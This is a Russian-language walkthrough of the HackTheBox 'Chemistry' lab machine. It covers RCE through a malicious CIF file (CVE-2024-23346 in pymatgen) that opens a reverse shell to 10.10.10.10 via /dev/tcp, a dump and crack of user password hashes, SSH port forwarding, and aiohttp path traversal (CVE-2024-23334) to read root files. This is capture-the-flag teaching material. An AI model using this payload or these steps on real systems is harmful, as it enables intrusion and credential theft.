




Разбор Chemistry - HackTheBox
| Автор : | Андрейкин Плюшкин |
| Дата публикации : | 23.02.2025 |
| Тэги : |
CVE-2024-23346 в библиотеке pymatgen. Получение RCE и доступ к пользователю app. Находим базу данных, получаем хэш пароля от аккаунта rosa и брутфорсим его. Применяем полученный пароль для подключения по SSH - доступ к пользователю обеспечен! Читаем /home/rosa/flag.txt
Находим среди процессов, запущенный пользователем root сайт на python. Поскольку, порт не открыт, то пробрасываем SSH-тунель для передачи трафика. Открывается сайт на фреймворке aiohttp. Находим для него CVE-2024-23334, запускаем фаззинг, для определения каталога, монтированного в сайте и с помощью него получаем Path Traversal + Arbitrary read file. Можем читать любой файл в системе из-под root. Читаем /root/root.txt
Сканируем нашу цель и находим открытые 5000 и 22 порт. Что-ж, пойдём смотреть, что нас ждёт на 5000 порту.
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
| 256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_ 256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open http Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
|_http-title: Chemistry - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Что-ж, посмотрим, что у нас есть интересного. Загрузка файла с содержимым для кристаллографии. Сервер его загружает, обрабатывает и что-то возвращает. Пример файла нам дан. Скорее всего, тут какая-нибудь SSTI или полноценная RCE. Попробуем поискать в интернете уязвимости, которые были найдены в обработчике CIF файлов на питоне: (link)
 Мы можем эксплуатировать RCE с помощью CIF файла. Попробуем изменить исходный example.cif и отправить серверу следующее:
data_Example
cell_length_a 10.00000
_cell_length_b 10.00000
_cell_length_c 10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta 90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
_atom_site_occupancy
H 0.00000 0.00000 0.00000 1
O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().class.mro[1].getattribute ( *[().class.mro[1]]+["sub" + "classes"]) () if d.name == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1\'");0,0,0'
_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
И получаем коннект к нашему серверу.
Посмотрим, какие существуют и с чем связан веб-сервер. В коде была указана БД, и я решил поискать её.
Посмотрел всё, что было на одном-двух каталогах выше и обнаружил database.db в instance
app@chemistry:~/instance$ ls
ls
database.db
Надо срочно открыть эту базу данных и посмотреть, что там есть!
app@chemistry:~/instance$ sqlite3 database.db
sqlite3 database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
structure user
sqlite> .schema user
.schema user
CREATE TABLE user (
id INTEGER NOT NULL,
username VARCHAR(150) NOT NULL,
password VARCHAR(150) NOT NULL,
PRIMARY KEY (id),
UNIQUE (username)
);
sqlite> .schema structure
.schema structure
CREATE TABLE structure (
id INTEGER NOT NULL,
user_id INTEGER NOT NULL,
filename VARCHAR(150) NOT NULL,
identifier VARCHAR(100) NOT NULL,
PRIMARY KEY (id),
FOREIGN KEY(user_id) REFERENCES user (id),
UNIQUE (identifier)
);
sqlite> SELECT * FROM user;
1|admin|Скрыл хэши. Найдёте сами)
2|app|Скрыл хэши. Найдёте сами)
3|rosa|Скрыл хэши. Найдёте сами)
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
Пробуем брутфорсить хэш пользователей admin или rosa Поскольку rosa существует среди пользователей, то начать брутфорс решил с неё. И бинго! Пароль был получен!
Заходим по паролю на аккаунт rosa по SSH и получаем привилегии пользователя!!
Я попробовал посмотреть, что есть у нашей машины, и к удивлению, в процессах обнаружил скрипт на питоне, который запущен из-под рута.
Не понял, для чего это, но я сразу же пошёл смотреть открытые порты и обнаружил следующее:
rosa@chemistry:/opt$ netstat -ntlpa
(Not all processes could be identified, non-owned process info will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:12343 0.0.0.0:* LISTEN - tcp 0 0 0.0.0.0:5000 0.0.0.0:* LISTEN 616881/-bash
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN - tcp 0 36 10.10.11.38:22 10.10.16.3:44528 ESTABLISHED -
tcp 1 0 10.10.11.38:5000 10.10.14.250:39352 CLOSE_WAIT - tcp 0 0 10.10.11.38:5000 10.10.14.61:48898Часть вывода я убрал, поскольку там указаны атакующие, и к тому-же, эта информация нам не нужна.
Пробуем пробросить 12343 порт. Ничего не приходит. Пробуем пробросить 8080 порт
ssh -L 8080:localhost:8080 rosa@10.10.11.38И в этот раз мы уже открываем какую-то панель
Посмотрел всё, что на сайте есть, и никакого интересного функционала не нашёл. Один эндпоинт выводит список сервисов, а ничего другого нету. Одним словом - заглушка. Смотрю, что у нас за бэкенд, и вижу aiohttp. Окей, поищу его в интернете.
Удивительно? Удивительно. Находим CVE-2024-23334. Осталось понять, какой каталог примонтирован для статики, чтобы через него провести Path Traversal.
Фаззим:
/assets (Status: 403) [Size: 14]Отлично, теперь попробуем через него достать root.txt:
GET http://127.0.0.1:8080/assets/../../../root/root.txtChill! Chill! It's me CJ!
Получаем root.txt !